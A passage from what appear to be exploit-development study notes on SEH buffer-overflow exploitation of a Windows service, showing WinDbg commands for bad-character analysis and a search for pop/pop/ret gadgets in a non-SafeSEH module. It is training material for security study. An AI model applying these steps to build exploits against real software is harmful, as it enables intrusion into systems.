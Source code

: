 In case the bad characters cause the SEH overflow not happen at all, this command can help to speed up the debug routine:

```
PS > Restart-Service "Vuln Service"; .\DbgX.Shell.exe -pn vulnsvc.exe -c 'g; !exchain'; sleep 3; python C:\sehof_bad_chars.py
```

In case the bad characters are truncated from memory, dump the bytes (*EstablisherFrame* - the second argument of the vulnerable *ExecuteHandler*) and examine them manually or use [find-bad-chars.py](https://github.com/epi052/osed-scripts/blob/main/find-bad-chars.py) by [@epi052](https://twitter.com/epi052):

```
0:012> g; dds esp L3
01c7b8f8  77e06f82 ntdll!ExecuteHandler2+0x26
01c7b8fc  01c7ba00
01c7b900  01c7ff54
0:012> db 01c7ff54+8 L100

Or

0:012> .load pykd
0:012> !py C:\OSED\find-bad-chars.py -a 01c7ff54
```




## 4. Search for P/P/R Sequence

P/P/R == `pop R32, pop R32, ret`:

```
$ msf-nasm_shell
nasm > pop eax
00000000 58 pop eax
nasm > pop ebx
00000000 5B pop ebx
nasm > pop ecx
00000000 59 pop ecx
nasm > pop edx
00000000 5A pop edx
nasm > pop esi
00000000 5E pop esi
nasm > pop edi
00000000 5F pop edi
nasm > pop ebp
00000000 5D pop ebp
nasm > ret
00000000 C3 ret
```

Locate a module with `/SafeSEH OFF` using [narly](https://code.google.com/archive/p/narly/):

```
0:012> load .narly
0:012> !nmod
10000000 10221000 libspp               /SafeSEH OFF                C:\Program Files\Vuln Software\bin\libspp.dll
```
